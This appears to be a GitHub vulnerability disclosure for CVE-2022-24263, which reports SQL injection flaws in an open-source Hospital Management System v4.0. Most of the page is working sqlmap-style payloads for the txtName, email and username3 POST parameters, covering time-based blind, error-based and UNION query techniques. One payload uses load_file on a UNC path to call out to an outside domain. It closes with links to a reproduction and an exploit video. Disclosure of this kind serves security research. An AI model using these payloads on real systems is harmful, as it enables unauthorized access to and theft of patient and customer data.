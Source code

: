 ## [CVE-2022-24263](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-24263)

## [Vendor](https://github.com/kishan0725/Hospital-Management-System)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/2022/CVE-2022-24263/DoC/Screenshot%202022-02-06%20084750.png)

## Description:
The Hospital Management System v4.0 is suffering from Multiple SQL-Injections via three parameters in function.php,  contact.php, and func3.php applications. 
The attacker can be receiving the all information from the system by using this vulnerability, and also the malicious actor can use sensitive information from the customers of this system. 
WARNING: If this is in some external domain, or some subdomain, or internal, this will be extremely dangerous!

Status: CRITICAL

## OMG
![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/2022/CVE-2022-24263/DoC/sheet.png)

[+] Payloads:

```mysql
---
Parameter: txtName (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: txtName=821761' AND (SELECT 9346 FROM (SELECT(SLEEP(3)))HJGv) AND 'xkCZ'='xkCZ&txtEmail=xstxPhYW@https://github.com/kishan0725/Hospital-Management-System&txtPhone=813-439-23'+(select load_file('\\\\k0lnu24kl14z5bxcoo5tj7z4bvho5fz3q6ey1qpf.https://github.com/kishan0725/Hospital-Management-System\\hgq'))+'&btnSubmit=Send Message&txtMsg=441931
---

-------------------------------------------

---
Parameter: #1* ((custom) POST)
    Type: error-based
    Title: MySQL OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: email=riiVAqjG@https://github.com/kishan0725/Hospital-Management-System'+(select-2936) OR 1 GROUP BY CONCAT(0x7162706271,(SELECT (CASE WHEN (5080=5080) THEN 1 ELSE 0 END)),0x716b767a71,FLOOR(RAND(0)*2)) HAVING MIN(0)#from(select(sleep(20)))a)+'&password2=d3U!l9k!E4&patsub=Login

    Type: UNION query
    Title: MySQL UNION query (random number) - 1 column
    Payload: email=riiVAqjG@https://github.com/kishan0725/Hospital-Management-System'+(select-2730) UNION ALL SELECT 8185,8185,CONCAT(0x7162706271,0x5777534a4b68716f6d4270614362544c4954786a4f774b6852586b47694945644a70757262644c52,0x716b767a71),8185,8185,8185,8185,8185#from(select(sleep(20)))a)+'&password2=d3U!l9k!E4&patsub=Login
---

-------------------------------------------

---
Parameter: #1* ((custom) POST)
    Type: error-based
    Title: MySQL OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: username3=CHnDaCTc'+(select-2423) OR 1 GROUP BY CONCAT(0x71626a6271,(SELECT (CASE WHEN (5907=5907) THEN 1 ELSE 0 END)),0x716b766b71,FLOOR(RAND(0)*2)) HAVING MIN(0)#from(select(sleep(20)))a)+'&password3=a5B!n6f!U1&docsub1=Login

    Type: UNION query
    Title: MySQL UNION query (random number) - 1 column
    Payload: username3=CHnDaCTc'+(select-3282) UNION ALL SELECT CONCAT(0x71626a6271,0x446c68526a796c4475676e54774d6b617a6977736855756f63796f43686d706c637877534a557076,0x716b766b71),4829,4829,4829,4829#from(select(sleep(20)))a)+'&password3=a5B!n6f!U1&docsub1=Login
---

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/edit/main/2022/CVE-2022-24263)

## Proof and Exploit:
[href](https://streamable.com/m4hnm1)
